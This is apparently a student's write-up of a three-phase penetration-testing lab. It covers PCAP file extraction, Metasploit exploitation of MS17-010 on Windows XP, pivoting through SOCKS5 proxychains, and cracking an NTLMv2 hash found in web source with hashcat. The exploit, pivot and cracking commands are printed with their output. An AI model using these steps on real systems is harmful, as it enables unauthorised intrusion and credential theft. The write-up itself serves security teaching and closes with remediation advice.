

Table of Contents
This write-up documents a multi-phase penetration testing exercise conducted in a controlled lab environment. The engagement progressed through three phases: analyzing a packet capture to extract an insecurely transferred file, exploiting a critical SMBv1 vulnerability on a Windows XP target, and pivoting through the compromised host to reach a segmented network containing a second target running a web application.
The exercise covered core offensive security techniques including traffic analysis with Wireshark, file reconstruction from network captures, vulnerability scanning with Nmap, remote exploitation with Metasploit, post-exploitation enumeration, network pivoting with SOCKS5 proxies, web application source code inspection, NTLMv2 hash identification, and password cracking with Hashcat.
Context
This was conducted in an isolated virtual lab environment for educational purposes as part of a penetration testing course. All targets were purpose-built vulnerable machines. No real-world systems were targeted.
Network Topology
The lab consisted of three machines across two segmented subnets. The attacker machine could only directly reach Target 1. Target 2 was isolated on a separate subnet, reachable only through Target 1 which was dual-homed across both networks.
| Machine | Role | OS | Network 1 | Network 2 |
|---|---|---|---|---|
| Kali Linux | Attacker | Kali Linux | 192.168.56.3 | — |
| Target 1 | Pivot Host | Windows XP SP3 | 192.168.56.4 | 10.0.15.3 |
| Target 2 | Web App Server | Linux | — | 10.0.15.4 |

Target 1 served as the bridge between the two subnets. After compromising it, the attacker could route traffic through it to reach Target 2 on the 10.0.15.0/24 network—a classic pivot scenario.
Phase 1: PCAP Analysis & Insecure File Transfer
The first phase involved analyzing a provided PCAP file (sec431Stage1FinalExam.pcapng) to extract information hidden in a file that had been transferred insecurely over the network.
Filtering for FTP Traffic
The PCAP was opened in Wireshark and filtered for ftp-data. This revealed a GIF file (sec431FA23FinalExam_phase1.gif) being transferred via unencrypted FTP between 192.168.3.10 and 192.168.3.13.
Security Issue
FTP transmits data in plaintext with no encryption. Any file transferred via FTP can be fully reconstructed by anyone capturing the network traffic. This is why protocols like SFTP or SCP should always be used instead.
Reconstructing the File
Since FTP provides no encryption, the transferred file was reconstructed by following the TCP stream of any packet referencing the .gif file in Wireshark. The stream data was exported as raw bytes and saved with a .gif extension.
Verifying File Integrity
The reconstructed file was examined in HxD (hex editor) and Autopsy (forensic tool) to verify the file header matched the GIF89a magic bytes, confirming it was a valid GIF and that nothing was obfuscated within the file structure.
# Offset(h) 00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F
00000000 47 49 46 38 39 61 7E 07 48 00 70 00 00 2C 00 00
# Decoded: G I F 8 9 a ~ . H . p . . , . .
# MIME Type: image/gifExtracting the Barcode
The GIF was analyzed in image editing software and confirmed to contain only a single frame—a barcode. The barcode was scanned using an online barcode reader and identified as a Code128 barcode that decoded to a Google Drive link containing the instructions for Phase 2.
Phase 2: Exploiting Windows XP SMBv1 (MS17-010)
With the lab VMs configured, the next phase focused on identifying and exploiting a vulnerability on Target 1 (Windows XP SP3) to gain remote access and exfiltrate a file from the system.
Network Scanning & Enumeration
An Nmap scan with service detection was run against the 192.168.56.0/24 subnet to identify live hosts and open ports.
root@kali# nmap -sV -Pn 192.168.56.0/24The scan discovered a live host at 192.168.56.4 running Windows XP with the following open ports:
PORT STATE SERVICE VERSION
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows XP microsoft-ds
2869/tcp closed icslap
3389/tcp open ms-wbt-server Microsoft Terminal ServicesVulnerability Scanning
The Nmap vulners script was used for deeper vulnerability enumeration against the target.
root@kali# nmap -sV -script vuln -Pn 192.168.56.4Vulnerability Found
CVE-2017-0143 (MS17-010) — Remote Code Execution vulnerability in Microsoft SMBv1 servers. Risk factor: HIGH. This is the same vulnerability exploited by the WannaCry ransomware. It allows an attacker to execute arbitrary code on the target system via a crafted SMB request to port 445.
Exploitation with Metasploit
The ms17_010_psexec module in Metasploit was selected to exploit the MS17-010 vulnerability and establish a Meterpreter session on the target.
msf6 > use windows/smb/ms17_010_psexec
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST 192.168.56.3
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 192.168.56.4
msf6 exploit(windows/smb/ms17_010_psexec) > exploitThe exploit completed successfully, establishing a SYSTEM-level Meterpreter session on the Windows XP target.

File Exfiltration
With a Meterpreter shell established, the target file was located using the search command and downloaded to the attacker machine.
meterpreter > search -f README_Stage3.txt
Found 1 result...
c:\Documents and Settings\Administrator\Desktop\README_Stage3.txt
meterpreter > download "c:\Documents and Settings\Administrator\Desktop\README_Stage3.txt" /kali/Desktop/
[*] Downloaded 1.51 KiB of 1.51 KiB (100.0%)The downloaded file contained instructions for Phase 3, confirming that Target 1 would be used as a pivot point to reach a second target on a different subnet.
Phase 3: Network Pivoting, Proxychains & Hash Cracking
The final phase required using the compromised Windows XP system as a network pivot to access a second target on an isolated subnet, then performing web application analysis and credential cracking.
Discovering the Second Network Interface
From within the Meterpreter session, a system shell was spawned and ipconfig revealed a second network interface on the target.
meterpreter > shell
C:\WINDOWS\system32>ipconfig
Ethernet adapter Local Area Connection:
IP Address. . . . . . . . . . . . : 192.168.56.4
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Ethernet adapter Local Area Connection 2:
IP Address. . . . . . . . . . . . : 10.0.15.3
Subnet Mask . . . . . . . . . . . : 255.255.255.0The second adapter (10.0.15.3) placed Target 1 on the 10.0.15.0/24 subnet—a network the attacker could not reach directly.
Setting Up the Pivot with Autoroute
Metasploit's autoroute post-exploitation module was configured to route traffic destined for the 10.0.15.0/24 subnet through the existing Meterpreter session.
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > run
[+] Route added to subnet 192.168.56.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
msf6 post(multi/manage/autoroute) > route
IPv4 Active Routing Table
========================
Subnet Netmask Gateway
------ ------- -------
10.0.15.0 255.255.255.0 Session 1
192.168.56.0 255.255.255.0 Session 1Configuring the SOCKS5 Proxy
A SOCKS5 proxy was established using Metasploit's server/socks_proxy auxiliary module on port 1050 to allow external tools (Nmap, Firefox) to route through the pivot.
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1050
msf6 auxiliary(server/socks_proxy) > set VERSION 5
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 1.
[*] Starting the SOCKS proxy serverThe proxychains configuration file (/etc/proxychains4.conf) was updated to use the SOCKS5 proxy:
[ProxyList]
socks5 127.0.0.1 1050Scanning the Second Subnet
With the proxy chain active, Nmap was routed through proxychains to scan the 10.0.15.0/24 subnet using TCP connect scans (-sT), since the SOCKS5 proxy only supports TCP-based traffic.
root@kali# proxychains nmap -sT -Pn 10.0.15.0-10
[proxychains] Strict chain ... 127.0.0.1:1050 ... 10.0.15.4:21 ... OK
[proxychains] Strict chain ... 127.0.0.1:1050 ... 10.0.15.4:80 ... OK
Nmap scan report for 10.0.15.4
PORT STATE SERVICE
21/tcp open ftp
80/tcp open httpA host at 10.0.15.4 was discovered running FTP (port 21) and HTTP (port 80).
Accessing the Web Application
Firefox was configured to route through the SOCKS5 proxy (127.0.0.1:1050, SOCKS v5), allowing access to the web application at http://10.0.15.4. The page displayed a message indicating the final phase of the exercise.
Discovering the NTLMv2 Hash
Inspecting the HTML source code revealed a hashed string embedded as an HTML comment:
<!--
kali::.:6ceeeed56521110d:A60F3E8B4BE92038433D54F8E0A304DB:0101000000...
-->The hash was identified as NTLMv2 based on its structure which follows the format: username::domain:LM_hash:NTLM_hash:response_metadata
# Username: kali
# Domain: .:
# LM Hash: 6ceeeed56521110d
# NTLM Hash: A60F3E8B4BE92038433D54F8E0A304DB
# Response: 010100000000000009D72D40B25DA01929...Cracking the Hash with Hashcat
The full hash was saved to a file and cracked using Hashcat with mode 5600 (NTLMv2) and the rockyou.txt wordlist.
root@kali# hashcat -m 5600 -a 0 kali-hash.txt rockyou.txt
hashcat (v6.2.6) starting...
root@kali# hashcat -m 5600 -a 0 kali-hash.txt rockyou.txt --show
KALI::.:6ceeeed56521110d:a60f3e8b4be92038433d54f8e0a304db:...
supermanThe cracked password was "superman".
FTP & SSH Access via Proxychains
The scope of the engagement permitted local logins on the network once a system was compromised. With the cracked credentials (kali:superman), a proxychained FTP session was established against Target 2.
root@kali# proxychains ftp 10.0.15.4
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] Strict chain ... 127.0.0.1:1050 ... 10.0.15.4:21 ... OK
Connected to 10.0.15.4.
Name (10.0.15.4:root): kali
Password:
230 Login successful.
ftp>With FTP access confirmed, the SSH service on Target 2 was opened and a proxychained SSH session was established from the attacker machine using the same credentials.
root@kali# proxychains ssh kali@10.0.15.4
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] Strict chain ... 127.0.0.1:1050 ... 10.0.15.4:22 ... OK
kali@10.0.15.4's password:
kali@target2:~$Both logins were successful, confirming the cracked credentials were valid and completing the final objective of the engagement.
Key Findings & Takeaways
The engagement revealed several vulnerabilities and misconfigurations across the lab environment:
- Insecure file transfers (FTP) — Files transferred via plaintext FTP can be trivially intercepted and reconstructed from packet captures. Organizations should enforce SFTP, SCP, or other encrypted transfer protocols.
- Unpatched critical vulnerabilities (MS17-010) — The Windows XP system was vulnerable to CVE-2017-0143, a well-known remote code execution vulnerability in SMBv1. This flaw was exploited for full SYSTEM-level access. Legacy systems must be isolated and patched, or decommissioned entirely.
- Insufficient network segmentation — The dual-homed Target 1 bridged two subnets without proper access controls. Once compromised, it provided a direct route to the internal 10.0.15.0/24 network. Firewall rules and strict inter-VLAN ACLs should govern traffic between segments.
- Sensitive data in HTML source — An NTLMv2 hash was embedded in the web application's HTML as a comment. Credentials and hashes should never be stored in client-accessible resources.
- Weak password — The NTLMv2 hash was cracked in seconds using a common wordlist. Password policies should enforce complexity requirements and prohibit dictionary words.
Tools Used
• Wireshark (traffic analysis)
• HxD (hex editor)
• Autopsy (digital forensics)
• Nmap (network scanning)
• Metasploit (exploitation & pivoting)
• Proxychains (traffic routing)
• Hashcat (password cracking)
• Inlite Research (barcode reader)